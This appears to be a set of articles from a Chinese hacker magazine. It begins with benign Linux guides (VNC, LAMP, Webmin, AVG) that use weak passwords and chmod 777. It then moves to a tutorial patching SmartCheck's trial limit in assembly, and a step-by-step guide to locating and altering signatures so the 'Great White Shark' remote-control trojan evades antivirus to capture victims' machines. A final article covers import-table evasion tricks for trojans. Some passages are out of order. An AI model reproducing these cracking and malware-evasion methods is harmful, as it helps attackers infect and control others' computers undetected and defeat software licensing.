点击“连接”按钮后，就会出现如图12所示的登录认证对话框，让我们输入登录对方 VNC 服务的密码，在输入正确的密码后，就可以通过 VNC 协议登录对方主机并进行操作了，如图13。


关于 VNC 的使用，大家可能还会有一些疑问，为什么我们登录的 VNC 也是字符终端啊，不是前面所说的图形界面的控制方式吗？原因非常简单，因为我们登录的是 Linux 服务器主机，而 Linux 服务器版本通常是没有图形界面的，所以我们也就无法以图形界面来登录远程主机了（除非手动给对方主机安装 GNOME 或者 KDE，不过没人会那么做的）。不过相信经过一年的 Linux 学习，大家对于字符终端也很亲切了，所以没有必要非得苛求通过图形界面来远程管理 Linux 服务器。

## Linux黑客入门

## LAMP环境的搭建


在针对 UNIX/Linux 系统的黑客攻击事件中，绝大多数的攻击都是由于 Web 服务上的漏洞而造成的，而在 UNIX/Linux 系统上，使用最广泛的 Web 组件就是著名的 Apache。我们想要学习基于 Linux 的 Web 攻击技术，那么首先就得需要一个合适的测试环境。在以前杂志的菜鸟学堂中，我们已经学习过了如何在 Windows 环境下搭建 web 服务以及建立数据库，那么在学习 Linux 的过程中，我们也需要有一个方便以后测试脚本程序的平台，这就是 LAMP，即 Linux+Apache+MySQL+PHP。更为确切地说，目前使用最多的是 5 套件，即 Linux+Apache+MySQL+PHP+Zend，其中最后一项 Zend 是优化 PHP 组件的工具，我们在本地搭建测试平台，并不需要这个工具，所以这里只建立 LAMP，Linux 系统相信大家早就会安装了，也就是之前一直介绍的 Ubuntu，下面就让我们逐个地来看一下剩下三个组件。

HTTP/1.1 通信协议，拥有简单而强有力的基于文件的配置过程，支持通用网关接口，支持基于 IP 和基于域名的虚拟主机，支持多种方式的 HTTP 认证，集成 Perl 处理模块，集成代理服务器模块，支持实时监视服务器状态和定制服务器日志，支持服务器端包含指令（SSI），支持安全 Socket 层（SSL），提供用户会话过程的跟踪，支持 FastCGI，通过第三方模块可以支持 Java Servlets 等等，如果我们准备选择 Web 服务器，毫无疑问 Apache 就是你的最佳选择。

### 一、Apache

Apache 是世界上使用排名第一的 Web 服务器组件，它几乎可以运行在所有的计算机平台上。Apache 源于 NCSA httpd 服务器，经过多次的修改，已经成为了世界上最流行的 Web 服务器组件之一。Apache 取自“a patchy server”的谐音，意思是充满补丁的服务器，因为它是自由软件，所以不断有人来为它开发新的功能、新的特性、修改原来的缺陷。Apache 的特点是简单、速度快、性能稳定，并可做代理服务器来使用。

本来它只应用于小型或试验 Internet 网络，后来逐步扩充到了各种 UNIX 系统中，尤其对 Linux 的支持相当完美。Apache 有多种产品，可以支持 SSL 技术，支持多个虚拟主机。Apache 是以进程为基础的结构，进程要比线程消耗更多的系统开支，不太适合于多处理器环境，因此在一个 Apache Web 站点扩容时，通常是增加服务器或扩充群集节点而不是增加处理器。到目前为止，Apache 仍然是世界上使用最多的 Web 服务器组件，市场占有率达 60% 左右。世界上很多著名的网站，比如 Amazon.com、Yahoo!、W3 Consortium、Financial Times 等使用的都是 Apache。它的成功之处主要在于它的源代码开放、有一支开放的开发队伍、支持跨平台的应用（可以运行在几乎所有的 UNIX、Windows、Linux 系统平台上）以及它的可移植性等方面。

Apache 的诞生极富有戏剧性，当 NCSA WWW 服务器项目停顿后，那些使用 NCSA WWW 服务器的人开始交换他们用于该服务器的补丁程序，他们也很快认识到成立管理这些补丁程序的论坛是必要的。就这样，诞生了 Apache Group，后来这个团体在 NCSA 的基础上创建了 Apache。

Apache web 服务器软件拥有以下特性：支持最新的……

### 二、MySQL

MySQL 是一个小型的关系型数据库管理系统，开发者为瑞典的 MySQL AB 公司，该公司在 2008 年 1 月 16 号被著名的 SUN 收购，而在 2009 年，SUN 又被 Oracle 收购了。目前，MySQL 数据库被广泛地应用在 Internet 上的中小型网站中。由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，许多中小型网站为了降低网站总体运营成本而都选择了 MySQL 作为网站数据库。

MySQL 数据库拥有以下的特性：使用 C 和 C++ 编写，并使用了多种编译器进行测试，保证源代码的可移植性；支持 AIX、FreeBSD、HP-UX、Linux、Mac OS、Novell Netware、OpenBSD、OS/2 Warp、Solaris、Windows 等多种操作系统；为多种编程语言提供了 API，这些编程语言包括 C、C++、Eiffel、Java、Perl、PHP、Python、Ruby 和 Tcl 等；支持多线程，充分利用了 CPU 资源；优化的 SQL 查询算法，有效地提高查询速度；既能够作为一个单独的应用程序应用在客户端服务器网络环境中，也能够作为一个库而嵌入到其它的软件中提供多语言支持，常见的编码比如中文的 GB 2312、BIG5，日文的 Shift_JIS 等都可以用作数据表名和数据列名；提供 TCP/IP、ODBC 和 JDBC 等多种数据库连接途径；提供用于管理、检查、优化数据库操作的管理工具；可以处理拥有上千万条记录的大型数据库。

与其它的大型数据库比如 Oracle、DB2、SQL Server 等相比，MySQL 自有它的不足之处，比如规模小、功能有限（MySQL Cluster 的功能和效率都相对较差）等，但是这些丝毫没有减少它受欢迎的程度。对于一般的个人使用者和中小型企业来说，MySQL 提供的功能已经绰绰有余，而且由于 MySQL 是开源软件，因此可以大大降低总体拥有成本。

### 三、PHP

PHP，一个嵌套的缩写名称，是英文超级文本预处理语言（PHP: Hypertext Preprocessor）的缩写。PHP 是一种 HTML 内……PHP是一种在服务器端执行的嵌入 HTML 文档的脚本语言，语言风格有些类似于 C 语言，现在被很多网站编程人员广泛应用。

PHP 独特的语法混合了 C、Java、Perl 以及 PHP 自创的新语法，它可以比 CGI 或者 Perl 更快速地执行动态网页。使用 PHP 制作出的动态页面与其他编程语言相比，PHP 是将程序嵌入到 HTML 文档中去执行，执行效率比完全生成 HTML 标记的 CGI 要高出许多；与同样是嵌入 HTML 文档的脚本语言 JavaScript 相比，PHP 在服务器端执行，充分利用了服务器的性能。PHP 执行引擎还会将用户经常访问的 PHP 程序驻留在内存中，其他用户再一次访问这个程序时就不需要重新编译程序了，只要直接执行内存中的代码就可以，这也是 PHP 高效率的体现之一。PHP 具有非常强大的功能，所有的 CGI 或者 JavaScript 的功能 PHP 都能够实现，而且支持几乎所有流行的数据库以及操作系统。

PHP 最初是 1994 年 Rasmus Lerdorf 创建的，刚开始时只是一个简单的使用 Perl 语言编写的程序，用来统计他自己网站的访问者，后来又使用 C 语言重新编写，包括可以访问数据库。在 1995 年以 Personal Home Page Tools（PHP Tools）开始对外发表第一个版本，Lerdorf 写了一些介绍此程序的文档，并且发布了 PHP 1.0。在这早期的版本中，提供了访客留言本、访客计数器等简单的功能。以后越来越多的网站使用了 PHP，并且强烈要求增加一些特性，比如循环语句和数组变量等等，在新的成员加入开发行列之后，在 1995 年中，PHP 2.0 发布了。第二版定名为 PHP/FI（Form Interpreter），PHP/FI 加入了对 MySQL 的支持，从此建立了 PHP 在动态网页开发上的地位。到了 1996 年底，有 15000 个网站使用 PHP/FI，时间又到了 1997 年中，使用 PHP/FI 的网站数字超过五万个。在 1997 年中，开始了第三版，也就是 PHP3 的开发计划，开发小组加入了 Zeev Suraski 以及 Andi Gutmans。2000 年，PHP4.0 又问世了，其中又增加了许多新的特性。目前在网络上广泛使用的，则是 PHP5.0 版本。

## 四、在 Ubuntu 中搭建 WEB 测试环境

在 Ubuntu 上安装 Apache、MySQL 以及 PHP 非常简单，只需要执行一条命令即可：`sudo apt-get install apache2 libapache2-mod-php5 php5-mysql mysql-server`。如图 1，该命令执行后，会下载这些组件并进行安装。命令中的 libapache2-mod-php5 表示将 PHP 整合到 Apache 中，说白了也就是让 Apache 支持 PHP 页面。

在安装过程中会出现如图 2 所示的界面，这是让我们设置 MySQL 的 root 用户密码。我直接设置成了 root，因为只是在本地搭建测试平台，所以并不需要过高的安全性，使用方便才是最重要的。这些组件安装完毕后，如图 3 所示。此时我们打开浏览器，在地址栏中输入本机 IP 地址 127.0.0.1，就可以看到一个表示成功的页面了，如图 4。看到了这个页面，就表示 Apache 服务已经成功运行起来。

刚才安装的服务组件的所有配置文件都是在 `/etc` 目录下的，它们分别是：`/etc/apache2`、`/etc/mysql`、`/etc/php5`。

默认情况下，WEB 路径是 `/var/www/`。


我们来看一下 Apache 配置文件的简要说明：

- `apache2.conf`：全局配置文件
- `conf.d/`：目录存放一些一般性的配置
- `envvars`：存放环境变量
- `httpd.conf`：用户配置文件
- `ports.conf`：httpd 服务的端口

以上这些配置文件对我们非常有用，不过现在，大家只需要知道以后我们要用到这几个配置文件就可以了。

再来看一下 MySQL 配置文件的简要说明：

- `my.cnf`：这是 MySQL 的主配置文件
- `conf.d/`：该目录下所有以 `.cnf` 为后缀的文件都会被 `my.cnf` 读入
- `conf.d/old_passwords.cnf`：该文件决定是否对旧格式的密码提供支持

PHP 的配置文件相对简单，位于 `/etc/php5/apache2/php.ini` 中，我们并不需要对其进行修改。

```bash
echo "<?php phpinfo();?>" | sudo tee /var/www/phpinfo.php
```

为了验证我们刚才搭建的服务是否支持 PHP，可以建立一个 PHP 文件并存放到 WEB 路径 `/var/www/` 中。命令执行成功后，会在该目录下生成 `phpinfo.php` 文件，内容为一个 `phpinfo()` 函数，用于查看 PHP 信息。


在浏览器中访问 `http://127.0.0.1/phpinfo.php`，即可看到 PHP 信息页面。接下来如果要使用 LAMP 平台，还需要数据库支持。下面建立一个 MySQL 数据库，执行命令：`mysqladmin -uroot -proot create mydb`。该命令用于建立名为 `mydb` 的数据库。

现在，我们就可以把 DZ 论坛放到 `/var/www/` 目录下，然后执行其中的安装程序，数据库名字段填 `mydb`，用户直接使用 `root` 即可完成安装。这一过程此前已做过详细介绍，此处不再赘述。下一节将针对 LAMP 进行相关优化及说明。


这次我要给大家介绍一个近乎完美的远程傻瓜管理 Linux 平台——Webmin。Webmin 可以代替命令行进行很多管理操作，是目前功能较强大的基于 Web 的 Unix 系统管理工具。管理员通过浏览器访问 Webmin 的各种管理功能即可完成相应操作。Webmin 支持绝大多数 Unix 系统，在 Linux 上运行良好，本文以 Ubuntu Linux 为例介绍其使用。

#### 一、下载和安装

下面，大家就跟我一起来安装 Webmin。打开 Linux 终端执行以下命令操作：

```bash
sudo apt-get install libnet-ssleay-perl libauthen-pam-perl libio-pty-perl libmd5-perl
```

即下载并安装 Webmin 所需的环境支持。由于 Webmin 是 SSL 加密访问，所以需要安装上述依赖库作为 SSL 加密环境支撑。在执行了该条命令后，系统就会自动安装了。接下来我们再执行以下命令：`wget http://prdownloads.sourceforge.net/webadmin/webmin-1.400.tar.gz`，也就是下载 Webmin。下载完成后，再分别执行以下命令进行解压和安装（因为我们下载的是 tar.gz 格式的压缩包）。

```bash
tar -zxvf webmin-1.400.tar.gz
cd webmin-1.400
sudo ./setup.pl
```

然后系统就会自动进行安装了，安装完成后会让我们进行配置，具体的配置方法如下：

```text
Web server port (default 10000)
Login name (default admin): miye
Login password: 74110
Password again: 74110
Use SSL (y/n): y
Start Webmin at boot time (y/n): y
```

再接着，系统就会自动进行安装。安装完成后我们就可以通过浏览器访问 `https://你的IP:10000` 来进行 Webmin 管理了。

#### 二、进行中文设置


我们在浏览器中打开 `https://你的IP:10000` 这个页面时，就会出现如图 1 所示的登录界面，输入用户名和密码后就进入了 Webmin 的管理页面，如图 2。看到这个管理页面，大家可能就要嘀咕了，咋全是英文啊？大家先不要着急，我们按照以下操作来进行中文设置：选择“Webmin”选项下的“Change Language and Theme”，在“Personal choice”下拉列表中选择“Simplified Chinese(ZH_CN)”也就是简体中文，然后点击“Make Change”按钮，如图 3。现在我们刷新一下就会发现清爽的中文界面已经出现在眼前了。


#### 三、玩转 Webmin

大家不难发现，Webmin 左侧的功能菜单非常齐全，功能非常多，如图 4。不过限于文章篇幅有限，今天我只给大家介绍“APACHE 服务器”、“MYSQL 数据库服务器”以及“系统管理”这几项。


### 1、APACHE 服务器

选择“服务器”选项下的“Apache 服务器”，我们就可以看到 Apache 的运行状态了，如图 5。在这里我们可以看到所有正在运行的虚拟服务器。要如何来配置虚拟服务器呢？点击上方的“Create virtual host”（创建新的虚拟服务器）选项，就会出现 Apache 虚拟服务器的配置界面了，如图 6，我们可以根据自己的需要进行虚拟服务器的配置，其实这和 Windows 系统下 IIS 的配置有些类似。

### 2、MYSQL 管理

选择“服务器”选项下的“MySQL 数据库服务器”，就会显示出 MySQL 的运行状态，如图 7。点击相应的文件夹就可以对数据库进行编辑甚至等操作了，如图 8。可以说，它的实用程度和 PHPMYADMIN 相比，一点儿也不逊色！

##### 3、系统管理


选择“系统”选项下的“系统日志”，就可以看到很多日志文件了，我点击了 FTP 系统日志，立即就显示出了所有的 FTP 日志信息，其中包括了登录 IP、登录时间、操作内容等，如图 9。“系统”选项下的“用户与群组”，可以让我们查看到所有用户以及群组信息，如图 10。而“系统”选项下的“进程管理器”，则可以让我们查看到当前运行的进程情况，如图 11。


#### 四、结尾

总的来说，我认为 Webmin 非常人性化地把所有 Linux 服务器管理员所需要的功能几乎全都集合在了一起，并且代替了繁琐的命令行方式下服务器的配置，实在是每一个 Linux 达人所必备的管理工具！

（文章中涉及到的 webmin-1.400.tar.gz，已经收录在了光盘中）

## Linux下：杀毒软件的使用

看了去年黑客 X 档案杂志上痴良 GG 写的 Linux 系列文章后，小菜我也不由得心痒，于是就写了一篇关于 Linux 下安全设置的文章。下面就言归正传，当我们安装好 Linux 系统后，首先要做的就是设置好管理员密码，也就是 root 的密码，不然的话任何人都可以从 recovery 模式中不需要密码而直接进入到你的文件系统了，所以这点一定要注意。

给 root 用户设置密码的方法是先通过 `sudo su` 命令将当前用户切换成 root 权限，然后使用 `passwd root` 命令为 root 用户设置密码，密码两次输入无误后就成功了，最后别忘记了使用 `su 你的普通用户名` 命令使你切换回普通用户。因为 root 代表着系统的最高权限，滥用的话小则会导致系统感染病毒，严重的话甚至可以造成你的系统瘫痪，所以没有必要的话，最好不要使用 root 用户。

当然了，像我们这些网络安全爱好者光做好这些是远远不够的（因为我们的安全意识比较高嘛），下面我要为大家介绍一些 Linux 下使用的安全软件，本文我就选择了比较优秀的杀毒软件 AVG Anti-virus for Linux，因为它是非商业免费软件。我将详细介绍它在 Ubuntu 系统下的安装，各位小菜可要竖起耳朵听好喽！

打开我们的火狐浏览器，在地址栏中输入 `http://free.grisoft.com/doc/5390/`，点击“Downloads”来到下载页面，点击“AVG Anti-Virus Free Edition 7.5 for Linux/FreeBSD”链接进入下一页后，选择“Debian based distributions（Debian, Ubuntu）”，出现提示“是否保存到本地磁盘”或者是提示“用其他程序打开”。我们选择保存到本地磁盘中，因为软件有 40 多 M，而且又是从国外网站下载的，所以速度比较慢，大家需要耐心等待一下。

下载安装完毕后打开我们存放的目录，如图 1，双击运行那个带有 avg 字样的 deb 安装包，然后按照提示输入账号和密码，AVG Anti-virus 就会自动进行安装了。安装完毕后，可以通过“应用程序”→“附件”→“AVG for Linux Workstation”来启动 AVG Anti-virus。


第一次启动时，将会出现“License type is FREE”的对话框，点击“OK”关闭，接下来就会出现 AVG Anti-virus 的主界面了，如图 2。点击“Test”来扫描系统中的病毒，我们将会被要求选择扫描路径，我选择的是 `/home` 目录，然后点击“Start test”，不一会儿就扫描好了。扫描完成后，AVG 将会弹出一个小型总结报告，我们可以关闭这个窗口或点击“Test Results”来查看前 20 次扫描报告。在该窗口中，我们同样也可以看到上次扫描结果。在知道了哪些文件被感染后，我们就可以阅读相关信息，并且将其删除，这些都需要手工来完成。我们还可以通过 AVG Anti-virus 最上方的“Service”→“Program settings”来修改设置，比如可以设置 AVG 每隔固定日期后就开机自动扫描等。

小菜们最关心的就是软件升级问题了吧，下面我就教大家如何升级。如果是想升级 AVG Anti-virus 到新的病毒库和新的软件版本，那就直接点击主界面中的“Update”按钮，AVG 就会尝试从网上下载最新内容进行升级了。如果遇到了如下错误信息：“Update process failed. Reason: Sorry, you do not have permission to execute avgupdate”，那么就打开终端（选择“应用程序”→“附件”→“终端”）。

```bash
sudo chmod 775 /opt/grisoft/avg7/bin/avgupdate
cd /opt/grisoft/avg7/var/
sudo chmod 777 run
sudo chmod 777 update/
sudo chmod 777 log
```

然后再次尝试更新。如果还是继续出错，错误信息为：“Online update failed. Reason: Can not download the file 'avg7info.ctf'”，那么就只能使用 `sudo avggui` 这个命令来赋予 AVG 杀毒软件临时管理员权限，这时再进行升级就没什么问题了，如图 3。

好了，到这里文章也就结束了，最后祝大家在新学期里都会有所收获，肉鸡多多！

（文章中涉及到的 AVG Anti-Virus Free Edition 7.5 for Linux/FreeBSD，已经收录在了光盘中）

## 破解 SmartCheck

SmartCheck 是一款常用的破解 VB 程序的利器，它可以将 VB 程序执行的操作完全记录下来，使我们轻而易举地破解掉绝大部分的 VB 程序，但是这个工具并不能免费使用，而是有 14 天的使用期限，本文就给破解新手们讲述一下我破解 SmartCheck 时间限制的过程。

运行 SmartCheck，任意载入一个 VB 程序，然后点击“Program”->“Start”，就可以清楚地看到试用期还剩 14 天的提示，如图 1。使用 OD 载入 SmartCheck，我们要破解的是时间限制，所以就对取时间的 API 下断点，先使用 `bp GetSystemTime` 一行，按 F9 让程序跑起来，仍然点击“Program”->“Start”，成功地断了下来，我们看堆栈窗口，如图 2 所示。


GetSystemTime 的原型如下：

```c
VOID GetSystemTime(
    LPSYSTEMTIME lpSystemTime //system time
);

typedef struct _SYSTEMTIME {
    WORD wYear;
    WORD wMonth;
    WORD wDayOfWeek;
    WORD wDay;
    WORD wHour;
    WORD wMinute;
    WORD wSecond;
    WORD wMilliseconds;
} SYSTEMTIME, *PSYSTEMTIME;
```

在堆栈窗口中可以看到，SystemTime 结构的地址是 0012EE88，我们在数据窗口中跟随到 0012EE88，按 Ctrl+F9 执行到返回，再来查看数据窗口，如图 3，其中 07D9 就是指年份 2009。来看反汇编窗口，如图 4，程序在调用 GetSystemTime 之前还调用了 GetLocalTime。


GetLocalTime 返回的是东八区的区时，也就是 GetSystemTime 加 8 个小时，我们可以在这里修改程序，让它每次执行这段代码所得到的时间都是 2009-12-12。替换 100052BD 处的指令为 `jmp 1000F6DA`，让它跳转到空白区域，然后再写入以下汇编指令。

```asm
1000F6DA  53                push ebx
1000F6DB  BB D9070C00       mov ebx,0C07D9
1000F6E0  8918              mov dword ptr [eax],ebx
;EAX指向SYSTEMTIME结构地址，修改年月
1000F6E2  BB 05000B00       mov ebx,0C0006
;修改天数
1000F6E7  8958 04           mov dword ptr [eax+4],ebx
1000F6EA  5B                pop ebx
1000F6EB  66:8B4C24 0E      mov cx,word ptr [esp+E]
;执行被替换指令
1000F6F0  ^E9 CD5BFFFF      jmp 100052C2
;跳回去
```

实践证实，只修改 GetSystemTime 所获取的时间是不行的，我们同时还要修改 GetLocalTime 所获取的时间才行。替换 100052B2 和 100052B6 的两条指令为 `jmp 1000F6FB`，然后在 1000F6FB 处写入如下指令：

```asm
1000F6FB  53                push ebx
1000F6FC  BB D9070C00       mov ebx,0C07D9
1000F701  8918              mov dword ptr [eax],ebx
1000F703  BB 05000B00       mov ebx,0C0006
1000F708  8958 04           mov dword ptr [eax+4],ebx
1000F70B  5B                pop ebx
1000F70C  8D4C24 04         lea ecx,dword ptr [esp+4]
;执行被替换指令
```

在堆栈窗口中可以看到，SystemTime 结构的地址是 0012EE88，我们在数据窗口中跟随到 0012EE88，按 Ctrl+F9 执行到返回。

图5 图6

修改完成后，复制到可执行文件进行保存。我们把系统日期向后调整到31号，如图5，再来查看一下软件的试用期限，发现仍然显示的是14天，如图6。至此，SmartCheck 破解算是成功了。最后注意一下，不能把日期更改到未安装软件之前，否则那样就直接过期了。

> （文章中涉及到的 SmartCheck、OD，已经收录在了光盘中）

## 大白鲨远控免杀进阶全程

老鹰

随着杀毒软件技术的更新，相信许多小菜都感觉到现在抓肉鸡是越来越难了吧。比如国内老牌的木马“灰鸽子”，不但免杀越来越难做，而且就算免杀做好了，也会被 360 等安全软件的主动防御给截获。究其原因，就是灰鸽子使用了加载服务来启动自身，而“加载服务”这一行为已经被各大杀毒软件视为头号严防对象。

最近，我得到了一款名为“大白鲨”的远控软件，它最大的特点就是可以使用 ActiveX 来启动，因此可以轻松过 360，而且它的功能也相对非常齐全，免杀制作起来也很方便。下面我就详细地介绍一下这款大白鲨远控如何使用修改特征码的方法来免杀过瑞星。

### 一、寻找免杀对象

将大白鲨远控 1.4 的压缩文件解压后，我们会在它的主目录下发现 DATA、Sound 插件这三个文件夹。根据经验判断，服务端程序肯定在 DATA 文件夹下。我们进入 DATA 文件夹，看到两个 DATA 文件的压缩包、一个 DATA.FILE 文件和一个 UPX 文件。很显然 UPX 是壳，这个我们先不管，而 DATA 的两个压缩包区别则是 Win7 兼容与不兼容。由此我猜测 DATA.FILE 就是这款远控的服务端程序。把它加载到 PEiD 里检测一下，果然是 PE 文件，那就拿它来开刀，如图1、图2。

### 二、定位特征码

我们使用 MyCCL 来定位特征码。打开 MyCCL 后，点击右边的“文件”按钮载入 DATA.FILE，然后点击“目录”按钮确定输出目录，“分块个数”设置为 200 并选择“复合定位”，如图2。点击“生成”按钮后对输出目录进行杀毒，如图3。杀毒完成后再点击“生成”按钮下面的“二次处理”按钮，然后选择“是”继续生成文件进行分析，如此反复，直到杀不出病毒为止，如图4。

很幸运，大白鲨远控目前只有一处特征码。我们点击“生成”按钮上面的“特征区间”按钮，右键点击特征，选择“复合定位此处特征”，然后继续点击“生成”，接着重复杀毒操作，直到杀不出病毒为止。就这样，最后获得了单位长度为 2 的特征码 `00011DFA_00000002`，如图5。

### 三、转换内存地址

运行 OC 偏移量转换器，选择打开所有 PE 类型文件，然后打开 DATA.FILE，将地址 `00011DFA` 输入到文件偏移栏后转换，得到内存地址为 `100129FA`，如图6。

### 四、修改特征码

运行 OD，载入 DATA.FILE，按 `CTRL+G` 弹出“请输入要跟随的表达式”窗口，输入内存地址 `100129FA`，确定后就来到了特征码区域：

```asm
100129F7  4E      DEC ESI
100129F8  85F6    TEST ESI,ESI
100129FA  7025    JL SHORT DATA.10012A21
（此即为特征）
100129FC  46      INC ESI
100129FD  33DB    XOR EBX,EBX
100129FF  >8B45F0 MOV EAX,DWORD PTR SS:[EBP-10]
```

我们使用 JMP 法来转移此处特征。先在程序尾部找到空闲区段 `10019242`，将 `100129F8` 到 `100129FD` 的代码转移至 `10019242`，并加 JMP 语句跳转回 `100129FF`，也就是 `10019242` 处修改如下：

```asm
10019242  85F6          TEST ESI,ESI
10019244  0F8CD797FFFF  JL DATA 10012A21
1001924A  46            INC ESI
1001924B  33DB          XOR EBX,EBX
1001924D  E9AD97FFFF    JMP DATA 100129FE
```

修改如下：

```asm
100129F7  4E            DEC ESI
100129F8  E945680000    JMP DATA 10019242
100129FD  90            NOP
100129FE  90            NOP
100129FF  >8B45F0       MOV EAX,DWORD PTR SS:[EBP-10]
```

然后将原 `100129F8` 处的代码 NOP 掉，并按上面方式修改。

特征码修改完毕后，右键选择“复制到可执行文件”→“所有修改”→“全部复制”，然后右键选择“保存文件”并把文件保存为 DATA.FILE，最后再将修改后的 DATA.FILE 覆盖大白鲨远控 DATA 目录下的原 DATA.FILE 文件即可。

### 五、测试

使用修改后的文件覆盖原文件后，我们打开大白鲨远控的主程序，并生成一个服务端程序，使用杀毒软件检测一下服务端程序，已经不报毒了，如图7。我们再双击运行一下服务端程序，也成功上线了，如图8。

至此，我们就成功将大白鲨远控的服务端免杀了。再加上该软件 ActiveX 启动的特点，相信它已经成为我们抓肉鸡的利器了！不过需要指出的是，免杀是一件长期工作，需要坚持不懈和随机应变。大白鲨这款软件因为比较新，所以免杀还是比较简单的，希望大家都能从此文中掌握免杀的基本思路和方法。

（文章中涉及到的大白鲨远控 1.4、PEiD0.94、MyCCL、OC 偏移量转换器、OD，已经收录在了光盘中）

## 输入表免杀方法总结

作者：长风 [P.B.E]

这段时间一直在学习免杀，免杀确实是一门高深的学问。要想学习好免杀技术，我们就必须了解和掌握许多知识才行，所以研究免杀会让我们进入全新的学习过程中，逐渐摆脱以前那种拿着工具到处乱注的日子，从一个“伪黑客”向真正的黑客慢慢过渡。免杀虽难，但是只要有恒心并付出努力，就会有一个又一个惊喜等着我们。

我以前也只是一个只会工具加壳的免杀菜鸟，在经过半个多月的学习后，现在已经掌握了主流的免杀技术，获得了不小的成绩。而在这段时间里，我和各大杀毒软件之间的较量可真是激烈啊，大家来看杀毒软件的强大阵营，如图1。

本文主要是想和免杀菜鸟们分享一下我在输入表免杀方法上的学习经验。在介绍输入表免杀前，大家先来了解一下什么是 PE 文件。PE，也就是 “Portable Executable”（可移植的可执行文件），常见的 EXE、DLL、OCX、SYS、COM 等都是 PE 文件。

PE 文件是微软 Windows 操作系统上的程序文件（也可能是间接被执行的文件，比如 DLL）。PE 文件的文件结构如图2所示。在网上我们可以找到更详细的资料，在制作免杀前了解 PE 文件结构是极有必要的。

介绍完 PE 文件，我们再来了解一下什么是输入表。输入表又名导入表。要想了解输入表，我们首先还得从 DLL 文件入手。平时我们会看到一些大型软件有很多 DLL 格式文件，它们是“动态链接库文件”，这些文件中有很多导入函数。这些导入函数不会直接被执行，而是在一个程序（EXE）运行时被程序调用执行的。

那么 EXE 主程序是如何找到这些需要导入的函数呢？这就要归功于“输入表”了。输入表就相当于 EXE 文件与 DLL 文件沟通的钥匙。所有导入函数信息都会写入输入表中。在 PE 文件映射到内存后，Windows 将相应 DLL 文件装入，EXE 文件通过输入表找到相应 DLL 中的导入函数，从而完成程序正常运行。

这一动态连接过程都由输入表参与。图3所示就是使用 LoadPE 展示的一个 PE 文件输入表信息。

由以上介绍我们可以看出输入表在 PE 文件中的重要性，因此目前的杀毒软件对于输入表查杀盯得很紧。它们通过输入表调用系统 DLL 文件，而 DLL 文件又调用 DLL 中的 API 函数。在 API 函数调用过程中，杀毒软件检测到有一定危险时，就会立刻报警，提示是病毒文件，这就是我们所说的高启发查杀。

使用这项技术的杀毒软件已经有很多了，比如卡巴、NOD32、小红伞、瑞星等等。下面我就开始为大家介绍常见的输入表免杀技术。部分知识希望大家在夜深人静的时候好好学习，比如物理地址、内存地址和 RVA 地址的相关知识。

### 一、输入表函数移位法

这是最早也是比较简单的输入表免杀方法了。虽然效果已经不像当年那么好，但却是学习免杀过程中必须掌握的基础知识。我们使用 C32 打开一个 EXE 文件，找到输入表段，定位特征输入表（如 ShellExecuteA），并在附近空白区域粘贴代码、记录新函数地址，以实现转移。

但还得告诉输入表：刚才那个地址是文件偏移地址，不是内存地址。我们需要利用 OC 计算出新的输入表函数 ShellExecuteA 的内存位置，并在 LoadPE 中修改才行，如图5。

### 二、DLL 函数名空格和 NOP 法

这个方法很简单。使用 C32 打开文件，找到特征输入表函数，在函数尾部原来的十六进制是 `00`，我们将其改成 `20` 或者 `90`（也就是 NOP），如图6。以前这种方法对于 NOD32 非常有效，但是 2009 年新版 NOD32 出来后，这种方法就基本失效了。不过用来对付其它杀毒软件，还是有一定效果的。

### 三、修改 OriginalFirstThunk、日期时间标志、ForwarderChain

这个方法不知道是哪位牛人发明的，可以说曾经一度秒杀国外杀毒软件。使用 LoadPE 打开你的 PE 文件，展开输入表，找到特征输入表函数所在的 DLL 文件名，右键选择“编辑”。在弹出的对话框中会看到很多属性值，我们主要修改 `OriginalFirstThunk`、日期时间标志、`ForwarderChain` 这三项（默认情况下都是 0），将这些值改成某一个值就行了，比如 `EEEEEEEE`，如图7。

修改完毕后会出现 `FirstThunk` 指针错误，这对木马运行基本不会有太大影响，但也会出现修改后木马无法运行或者功能异常的情况，所以大家修改后一定要仔细测试。

### 四、手工重建输入表

关于输入表重建，我想大家都非常熟悉了吧。这算是比较复杂的一种方法，不过免杀效果非常好，也是必须掌握的方法。这个方法其实就是添加一个新区段，再把原来的输入表移到新建区段上。重建主要是针对杀毒软件定位到大片输入表函数。

首先使用 LoadPE 记录下 PE 文件的输入表 RVA 值（`00131304`）和输入表大小（`000001FC`），如图8。然后将文件载入 OD，载入后最小化 OD，打开 ImportREC，在“选择一个使用中的进程”中选择我们的 PE 进程，如图9。然后在“RVA”和“大小”中填入刚才记录的数据，点击“获得输入信息”，再点击右侧“显示无效的”按钮，如图10。

接下来删除正确性为假的函数指针，在深灰色区域中右键，在菜单选择“删除指针数据”即可。最后点击“修复抓取文件”，选择那个 PE 文件，如图11。关闭所有工具后会发现多出了一个文件，这就是处理后得到的文件。最后把重建过的 PE 文件载入 C32，将原来的输入表函数（从第一个 DLL 文件名到最后一个输入表函数）全部用 `00` 或 `90` 填充即可。

### 五、DLL 文件名修改法

这个方法也非常奇妙，是不久前流行的一种方法，既实用也很简单。先使用 C32 找到输入表函数名所对应的 DLL 文件名，如图12。假设这里的特征输入表函数是 `URLDownloadToFileA`，它对应的 DLL 应该是上面最近的 `URLMON.DLL`，于是我们将 `URLMON.DLL` 更改成 `ABCDEF.DLL`，字符串长度要保持一致，都要大写。

然后保存。显然程序会因为找不到 `ABCDEF.DLL` 而无法运行，所以还得在系统中搜索出 `URLMON.DLL`，发现其位于 `C:\Windows\System32` 目录下，如图13。将它复制出来并改名为 `ABCDEF.DLL`，和你的 PE 文件放在一起，这样 PE 文件就可以运行了。应用在木马上，我们可以制作一个 WinRAR 自解压文件，将它们放在一起即可。这个方法可以过很多高启发杀毒软件。

### 六、输入表函数对调法

这个方法的原理是将输入表中函数名长度相同的函数在 C32 中进行对调，只有长度一样才不会出错。然后在 LoadPE 中做相应修改即可。比如被查杀函数是 `OpenFileA`，存在于 `A.dll` 文件中，我们在 `B.dll` 中找到一个 `GetATimeA` 函数，这两个函数名称长度一样。我们在 C32 中做静态对换后，还要将它们的 RVA 进行对换。操作很简单，这里就不演示了。

### 七、其它方法

主流方法这次就给大家介绍到这儿。当然方法不止以上几种，而且大牛们也在不断创新中。还有一些偏深偏难的方法，包括：SEH 结构化异常处理、输入表函数加密、隐藏法等等。这些方法需要很强的汇编能力，目前还不适合免杀初学者。不过高手们也制作了很多输入表加密软件，采用的免杀方法就是加密输入表。

